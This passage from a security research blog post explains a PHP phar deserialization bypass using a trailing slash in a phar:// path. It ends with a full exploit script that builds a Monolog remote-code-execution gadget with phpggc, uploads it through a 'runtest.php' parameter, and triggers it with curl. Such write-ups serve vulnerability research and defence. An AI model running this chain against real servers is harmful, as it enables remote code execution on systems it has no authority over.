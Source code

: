 The parameter `rkey=pouetpouet` was creating our phar file in `/var/www/html/results/pouetpouet./testinfo.ini`. So this can be unserialized, right?

Sadly, no. When we trigger the unserialize a second time, a final dot is appended to our path, meaning that php will try to open `/var/www/html/results/pouetpouet./testinfo.ini.` which will be blocked. So, how do we bypass this?

Like for jar, zip, ear, and other compressed file formats, phar IS a zip, which means that with the right parser and syntax, you can ask php to inspect its content! It looks weird as the separator here is a slash, which definitely leads to thinking this is a regular path, but it's not!

I'll give both our phar path, and a regular jar one to make the distinction.

- ` jar:///foo.jar!bar`   // file or dir "bar" within the jar/zip file "foo.jar"
- `phar:///foo.ini/bar`   // file or dir "bar" within the phar/zip file "foo.ini" which is a PHAR


So by appending a final slash to our payload, php will try to open `/var/www/html/results/pouetpouet./testinfo.ini/.`, which will open the archive `testinfo.ini` to try to inspect its sub-item `.` from the archive. The sub-item doesn't even need to exist as php needs to inspect the phar archive first to find out! :D


# 5. Full exploit for MASTER!

```bash
# Generate the right gadget
/opt/phpggc/phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini

# Dirty url-encoding of all bytes to prevent issues
URLENC_PAYLOAD=$(cat /tmp/testinfo.ini | xxd -p | tr -d "\n" | sed "s#..#%&#g")

# Write $URLENC_PAYLOAD in /var/www/html/results/gadget./testinfo.ini
curl -sSkig 'http://127.0.0.1:4000/runtest.php' -d 'rkey=gadget' -d "ini=$URLENC_PAYLOAD" -o -

# Trigger is_dir(phar:///var/www/html/results/gadget./testinfo.ini/foo)
curl -sSkig 'http://127.0.0.1:4000/runtest.php' -d 'rkey=phar:///var/www/html/results/gadget./testinfo.ini/foo' -o -
```

If you're a regular reader of ThinkLoveShare (thank you!), this might ring a bell.. Remember `Case 74` from [1001 Ways to PWN Prod](https://thinkloveshare.com/hacking/1001_ways_to_pwn_prod/)?
